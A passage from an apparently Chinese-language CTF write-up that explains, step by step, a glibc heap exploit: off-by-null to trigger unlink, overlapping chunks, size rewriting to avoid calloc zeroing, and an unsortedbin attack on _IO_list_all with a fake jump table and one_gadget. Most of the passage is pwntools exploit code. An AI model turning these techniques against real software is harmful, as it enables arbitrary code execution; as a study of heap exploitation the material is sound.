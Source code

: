 因此，本题目采用了如下所示方法进行堆布局：

	Alloc(0x100)	#0
	Alloc(0x108)	#1
	Alloc(0xf0)		#2
	Alloc(0x100)	#3

	Delete(1)
	Alloc(0x108)	#1
	fake_fd = heap_addr - 0x18 + 0x18
	fake_bk = heap_addr - 0x10 + 0x18

	payload = p64(0) + p64(0x101) + p64(fake_fd) + p64(fake_bk)
	payload = payload.ljust(0x100,'\x00')
	payload += p64(0x100)
	Fill(payload)

	Delete(2)
首先申请4个chunk，释放1后再申请回来，并对chunk 1进行填充，形成对chunk 2的off by null。紧接着释放chunk 2，触发前向unlink。

	Alloc(0x1f0)	#2
	payload = p64(0x21)*0x3e
	Fill(payload)
然后再次申请size(chunk1)-0x10 + size(chunk2)+0x10大小的chunk，就可以将刚才释放的chunk再次分配回来（此时该chunk标号为chunk2），并进行填充（这一步填充的目的是为了之后释放伪造chunk绕过检查）。

	Delete(1)
	Delete(0)
	Alloc(0x210)	#0
	payload = '\x00'*0x110 + p64(0) + p64(0x91) + p64(0x21)*30
	Fill(payload)
然后释放chunk0，chunk1，两个chunk进行了合并，然后再次申请0x210大小的chunk，就可以吧chunk0+chunk1再次分配回来（此时该chunk标号为chunk0），并对其进行填充。这里需要注意的一点就是，此时chunk2的部分内容已被包含在chunk0中，因此我们可以通过修改chunk0内容对chunk2的头部进行改写（将其大小进行改写：0x201 --> 0x91）。

	Delete(3)
	Delete(2)
	Alloc(0x88)		#1
接着释放chunk3，chunk2，由于chunk2大小已经被我们改小，因此不会与chunk3进行合并。再次申请0x88大小的chunk，将刚才释放的chunk2再次分配回来（此时该chunk标号为chunk1）。

**关键点：为什么我们要这么辛苦的不断释放又申请chunk呢？其目的就是为了减少当前已经申请的chunk数量，使其小于2，满足不填充的malloc分支，而不是calloc分支。** 

此时我们可以发现，当前堆空间中，只有chunk0和chunk1，因此当运行Alloc(0x88)这句代码是，调用mallopt函数的第二个参数为0x0，再之后进行chunk free操作时，不会对chunk内容进行填充（0xcc）。

	Delete(0)
	Delete(1)
	Alloc(0x210)
	_IO_list_all = libc.symbols['_IO_list_all']
	jump_table_addr = libc.symbols['_IO_file_jumps'] + 0xc0
	one_gadget = libc.address + 0x3f52a
	payload = p64(0)*34 + p64(0) + p64(0x61) + p64(0) + p64(_IO_list_all-0x10) + p64(2) + p64(3)
	payload += (0xd8 - 6*8) * '\x00'
	payload += p64(jump_table_addr)
	payload += p64(one_gadget)
	Fill(payload)
下面的步骤就是正常的如何伪造unsortedbin，不再进行赘述。
## 5.unsortedbin attack 代码##
unsortedbin attack利用脚本
